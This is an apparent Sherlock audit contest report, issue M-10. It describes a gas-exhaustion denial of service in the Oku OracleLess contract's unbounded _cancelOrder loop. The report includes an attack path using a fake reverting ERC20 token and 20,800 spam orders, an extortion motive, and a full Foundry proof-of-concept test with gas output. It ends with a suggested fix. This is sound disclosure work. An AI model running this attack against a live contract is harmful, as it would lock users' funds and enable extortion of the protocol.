 # Issue M-10: cancelOrder order can be DOSed due to unbounded loop.
Source: https://github.com/sherlock-audit/2024-11-oku-judging/issues/589

Found by
056Security, 0x0x0xw3, 0x37, 0xNirix, 0xaxaxa, 0xeix, 0xlucky, Audinarey, Boy2000, Chinedu, Contest-Squad, ExtraCaterpillar, John44, Kenn.eth, Opeyemi, PeterSR, Ragnarok, Tri-pathi, ami, befree3x, bughuntoor, future2_22, gajiknownnothing, hals, iamandreiski, itcruiser00, joshuajee, mxteem, oualidpro, phoenixv110, rahim7x, s0x0mtee, vinica_boy, whitehair0330, xiaoming90, yuza101, zhoo, zxriptor

Summary
The pendingOrderIds arrays can grow too large making it impossible to cancel subsequent legitimate pending orders, this will create a permanent DOS for the _cancelOrder no one will be able to cancel orders not admin nor order reciepient.

Root Cause
The root cause of the issue lies in the _cancelOrder function that loops through the pendingOrderIds in search of the right one because this pendingOrderIds array can grow too large a DOS is bound to happen and this can be exploited by a hacker to ransomware the protocol.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151
```
    function _cancelOrder(Order memory order) internal returns (bool) {  
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {  
            if (pendingOrderIds[i] == order.orderId) {  
                //remove from pending array  
                pendingOrderIds = ArrayMutation.removeFromArray(  
                    i,  
                    pendingOrderIds  
                );  
  
                //refund tokenIn amountIn to recipient  
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);  
  
                //emit event  
                emit OrderCancelled(order.orderId);  
  
                return true;  
            }  
        }  
        return false;  
    }  
``` 
Internal pre-conditions
No response

External pre-conditions
No response

Attack Path
Attacker creates a malicious ERC20 token with fake transfers to ease the gas cost for this attack.
Attacker Creates 20800 orders using a worthless token as tokenIn, demanding 1 USDC per order.
They make it impossible for the admin to cancel the order because they deliberately revert the transfer on their malicious contract.
After this legitimate users will not be able to cancel order.
Impact
The cancelOrder function won't work and it will cost around $150 dollar to do it.
There is a financial ransomware gain where the attacker can set high tokens out and force the admin to pay more money for their worthless token, so this is incentivized.
PoC
Follow these steps to add foundry to the contract https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry

Install open zeppelin contracts
```
forge install https://github.com/OpenZeppelin/openzeppelin-contracts.git --no-commit
```
  
Copy and paste the code snippet below in the /test/ folder.
```
// SPDX-License-Identifier: MIT  
pragma solidity ^0.8.24;  
  
import "forge-std/Test.sol";  
import "forge-std/console.sol";  
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";  
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";  
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";  
import "../contracts/interfaces/uniswapV3/IPermit2.sol";  
import "../contracts/interfaces/openzeppelin/ERC20.sol";  
import "../contracts/interfaces/openzeppelin/IERC20.sol";  
  
contract FakeERC20 {  
    function transfer(address to, uint256 amount) external returns (bool) {   
        revert("HACKED!");  
        return false;  
    }  
  
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {   
        return true;  
    }  
  
}  
  
contract PocTest is Test {  
  
    AutomationMaster automationMaster;  
    OracleLess oracleLess;  
    IPermit2 permit2;  
    IERC20 fakeErc20;  
    IERC20 realToken;  
  
    address attacker = makeAddr("attacker");  
    address alice = makeAddr("alice");  
  
    function setUp() public {  
        automationMaster = new AutomationMaster();  
        oracleLess = new OracleLess(automationMaster, permit2);  
        fakeErc20 = IERC20(address(new FakeERC20()));  
        realToken = IERC20(address(new ERC20Mock()));  
        //MINT  
        ERC20Mock(address(realToken)).mint(alice, 100 ether);  
    }  
  
    function testDosAttack() public {  
        uint96 orderId;  
        uint gasUsed = gasleft();  
        vm.startPrank(alice);  
        realToken.approve(address(oracleLess), 100 ether);  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        gasUsed = gasleft();  
        oracleLess.cancelOrder(orderId);  
        console.log("Normal Cancel Gas Usage        : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(attacker);  
        gasUsed = gasleft();  
        for (uint i = 0; i < 20800; i++)  
            oracleLess.createOrder(fakeErc20, fakeErc20, 1, 1, attacker, 10, false, '0x0');  
        console.log("Attack Gas Usage               : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(alice);  
        gasUsed = gasleft();  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        oracleLess.cancelOrder(orderId);  
        console.log("After Attack Cancel Gas Usage  : ", gasUsed - gasleft());  
        vm.stopPrank();  
    }  
  
}
```  
Output
```
[PASS] testDosAttack() (gas: 444968053)  
Logs:  
  Normal Cancel Gas Usage        :  9439  
  Attack Gas Usage               :  394889776  
  After Attack Cancel Gas Usage  :  30294277
```
From the test output, we can see that 20800 order is enough to cause a DOS on the cancelOrder function, and it will cost the attacker 394889776 is about $150 dollar.

Mitigation
Create a fuction that can use the index to cancel order.

### All findings report
https://audits.sherlock.xyz/contests/641/report
